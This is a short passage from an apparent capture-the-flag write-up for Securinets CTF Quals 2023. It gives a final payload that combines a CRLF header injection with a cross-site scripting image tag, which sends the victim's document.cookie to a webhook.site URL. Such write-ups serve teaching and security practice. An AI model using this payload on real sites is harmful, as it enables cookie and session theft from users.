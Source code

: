 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807191515.png)

It's still `149`!! That being said, **the `Content-Length` response header's value is fixed**!

**Hence, the final payload will be:**
```
overwriteUserid: foobar\r\n
\r\n
{"token":"<img src=errorpls onerror=location.href='//webhook.site/26e56a2a-016e-454e-87f6-4080f4c6f444?flag='.concat(document.cookie)>aaaaaaaaaaaaa"}
```
